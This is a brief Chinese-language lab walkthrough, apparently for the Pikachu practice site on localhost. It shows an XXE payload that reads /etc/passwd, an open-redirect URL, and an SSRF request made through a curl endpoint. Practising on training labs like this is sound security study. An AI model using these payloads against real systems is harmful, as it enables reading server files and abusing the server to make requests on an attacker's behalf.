 ## xml外部实体注入攻击

引用外部实体构造读取/etc/passwd的payload的

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
```
![](..\img\Pikachu\2022-06-28-01-52-18.png)

# url跳转

## 未做限制导致url可以任意跳转

直接访问构造的链接，可以跳转到百度页面

```
http://127.0.0.1:8001/vul/urlredirect/urlredirect.php?url=www.baidu.com
```

# SSRF

## SSRF(curl)

可以通过构造url，带出百度页面

```
http://127.0.0.1:8001/vul/ssrf/ssrf_curl.php?url=http://www.baidu.com
```
